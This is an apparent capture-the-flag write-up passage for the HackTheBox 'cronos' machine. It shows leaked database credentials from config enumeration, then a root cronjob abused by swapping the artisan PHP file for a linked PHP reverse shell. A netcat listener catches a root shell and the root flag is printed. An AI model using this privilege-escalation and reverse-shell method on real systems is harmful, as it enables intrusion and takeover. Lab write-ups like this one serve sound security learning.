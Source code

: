 ```
SESSION_DRIVER=file
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

```

```
[+] Searching passwords in config PHP files
   define('DB_DATABASE', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_USERNAME', 'admin');
            'password' => env('DB_PASSWORD', ''),
            'password' => env('REDIS_PASSWORD', null),
   define('DB_DATABASE', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_USERNAME', 'admin');
            'password' => env('DB_PASSWORD', ''),
            'password' => env('REDIS_PASSWORD', null),

```

I saw that cronjob:

```
* * * * *   root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

It runs a PHP file every minute that is owned by www-data. So we simply replace that php file with this: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Start a listener:

```
┌──(kali㉿kali)-[~/Desktop/DownloadedScripts]
└─$ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from cronos.htb [10.129.156.83] 44686
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 22:40:01 up 55 min,  0 users,  load average: 4.12, 4.86, 5.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/
# cd /root
# dir
dhcp.sh  root.txt
# whoami
root
# cat root.txt
1703b8a3c9a8dde879942c79d02fd3a0
#

```